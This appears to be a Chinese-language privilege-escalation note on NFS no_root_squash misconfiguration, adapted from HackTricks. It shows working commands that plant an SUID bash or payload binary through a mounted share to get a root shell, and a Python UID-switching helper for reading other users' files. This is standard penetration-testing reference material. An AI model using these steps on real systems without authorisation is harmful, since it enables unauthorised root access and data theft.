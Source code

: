 # NFS no\_root\_squash/no\_all\_squash 错误配置

> 阅读 NFS 的配置文件，可能会发现某个目录配置为 no\_root\_squash ，那么你可以作为客户端访问并在该目录中写入
>
> * no\_root\_squash :当客户端以 root 用户访问时，服务端会给与 root 权限
> * no\_all\_squash : 访客被映射为服务器上相同 UID 的用户

## 远程利用

*   在客户端挂载该目录，并以 root 身份在挂载的文件夹上复制 /bin/bash 二进制文件并赋予 SUID 权限，然后在受害机器上执行

    ```shell
    # Attacker, as root user
    mkdir /tmp/pe
    mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
    cd /tmp/pe
    cp /bin/bash .
    chmod +s bash

    # 目标机器
    cd <SHAREDD_FOLDER>
    ./bash -p #ROOT shell
    ```
*   使用 root 身份挂载该目录，编译滥用 SUID 的 payload 复制到文件夹中，赋予 SUID 权限，并从受害机器执行该二进制文件， [二进制文件 payload](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/payloads-to-execute#c)

    ```shell
    # Attacker, as root user
    gcc payload.c -o payload
    mkdir /tmp/pe
    mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
    cd /tmp/pe
    cp /tmp/payload .
    chmod +s payload

    # 目标机器
    cd <SHAREDD_FOLDER>
    ./payload #ROOT shell
    ```

## 本地漏洞利用

> 这种情况是为了防止文件执行 IP ，这样我们就无法使用远程攻击,
>
> 看不懂，查看原文 --> [链接](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no\_root\_squash-misconfiguration-pe)

## NFSEHLL

> 一旦称为目标机上的 root 用户，我们就可以查看 NFS 共享以获取一些文件，但是共享的用户都有自己的 UID ，由于 UID 不匹配，就算 root 也无法读取，所以我们可以在所需的 SHELL 命令执行之前执行一段命令来设置我的 uid:

```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)  # 设置当前进程的真实有效用户 id
os.system(' '.join(sys.argv[1:]))
```

然后我们就可以正常执行命令一样进行执行

```shell
[root@machine .tmp]# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
[root@machine .tmp]# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied
[root@machine .tmp]# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
